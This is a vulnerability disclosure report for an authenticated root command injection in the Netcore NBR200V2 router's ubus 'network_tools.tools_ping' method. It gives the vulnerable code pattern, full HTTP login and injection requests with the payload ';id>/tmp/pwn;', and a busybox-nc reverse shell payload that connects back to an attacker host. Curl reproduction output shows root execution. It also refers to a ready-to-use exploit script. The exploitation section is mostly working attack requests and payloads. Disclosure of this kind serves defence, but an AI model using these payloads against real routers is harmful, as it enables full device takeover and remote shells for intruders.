

# Netcore NBR200V2 Router

- Vendor: Netcore (磊科)
- Product: Netcore NBR200V2
- Firmware Version: V1.3.241127.071246 (LEDE 17.01, mipsel / MT7621)
- Vulnerability Type: Authenticated Command Injection (CWE-78)

## Overview

An authenticated command injection vulnerability was identified in the Netcore NBR200V2 router. An attacker with a valid web session can invoke the `network_tools.tools_ping` ubus method with a crafted `url` parameter to achieve arbitrary command execution with root privileges on the target device. The issue can be triggered via the ubus JSON-RPC endpoint:

`POST /ubus HTTP/1.1` — method `call` on object `network_tools`, method `tools_ping`

Successful exploitation requires a valid session (obtainable via `session.login` with the web credentials configured during device setup).

## Vulnerability Details

The vulnerability resides in the `tools_ping` handler (function at **0x401eb8**, MIPS16) of the `/usr/bin/network_tools` ubus service (registered as ubus object `network_tools`, running as root). The user-controlled `url` parameter is passed without sanitization into a command template executed via `system()`:



```
snprintf(buf, ..., "(ping %s -c %d -s %d > %s; touch %s)&", url, count, size, ...);
system(buf);
```

The actual command executed on the device (captured with `strace -f -e trace=execve` during testing) for a `url` value of `;id>/tmp/pwn;` is:

```
sh -c "(ping ;id>/tmp/pwn; -c 1 -s 56 > /tmp/.ping.txt; touch /tmp/.ping_end)&"
```

The leading `;` terminates the `ping` command, after which the injected command runs with root privileges. The sibling method `tools_traceroute` (handler at **0x401bd8**) shares the same vulnerable pattern (`traceroute %s ...` templates in the same binary).

## Proof of Concept

Step 1 — login to obtain a session:

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: <len>
Connection: close

{"jsonrpc":"2.0","id":1,"method":"call","params":["00000000000000000000000000000000","session","login",{"username":"root","password":"<password>"}]}
```

Response:

```json
{"jsonrpc":"2.0","id":1,"result":[0,{"ubus_rpc_session":"<32-hex-session>","timeout":300,...}]}
```

Step 2 — send the command injection request with the session:

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: <len>
Connection: close

{"jsonrpc":"2.0","id":1,"method":"call","params":["<32-hex-session>","network_tools","tools_ping",{"action":"start","url":";id>/tmp/pwn;","count":1,"size":56,"wanid":1}]}
```

Response:

```json
{"jsonrpc":"2.0","id":1,"result":[0]}
```

`/tmp/pwn` on the device then contains `uid=0(root) gid=0(root) groups=0(root)`.

A reverse shell can be obtained with the following `url` payload (the firmware busybox `nc` only supports `nc IP PORT` — no `-e` — so a two-channel scheme is used: channel 1 attacker→target commands, channel 2 target→attacker output; `tail -f /dev/null` keeps the first `nc` stdin open):

```
;tail -f /dev/null|nc <LHOST> <LPORT1>|/bin/sh|nc <LHOST> <LPORT2>;
```

A ready-to-use exploit (`exp_netcore_nbr200_tools_ping_rce.py`) implementing login plus this two-channel interactive reverse shell is provided alongside this report.

## Impact

An authenticated attacker can inject arbitrary shell commands through the `url` parameter of `network_tools.tools_ping` and execute them with **root** privileges, resulting in full compromise of the device. The authentication barrier is weak on devices that keep the factory password or where credentials are otherwise known; the method can also be chained with the pre-init unauthenticated issues in the same firmware.

## Reproduction Result

The vulnerability was dynamically verified against the firmware emulated with qemu-mipsel + chroot (stock uhttpd with the `/ubus` plugin, rpcd running, root password set for the emulated session):

```
$ # login ok -> session aa06ef16...
$ curl -X POST http://<target>:8080/ubus -d '{"jsonrpc":"2.0","id":1,"method":"call","params":["<sid>","network_tools","tools_ping",{"action":"start","url":";id>/tmp/pwn;","count":1,"size":56,"wanid":1}]}'
{"jsonrpc":"2.0","id":1,"result":[0]}
$ cat tmp/pwn
uid=0(root) gid=0(root) groups=0(root)
```

An interactive root reverse shell from the emulated firmware back to the attacker host (login + two-channel busybox-nc scheme) was also confirmed:

```
uid=0(root) gid=0(root) groups=0(root)
SHELL_OK
/
$ cat /etc/openwrt_release | head -1
DISTRIB_ID='LEDE'
```
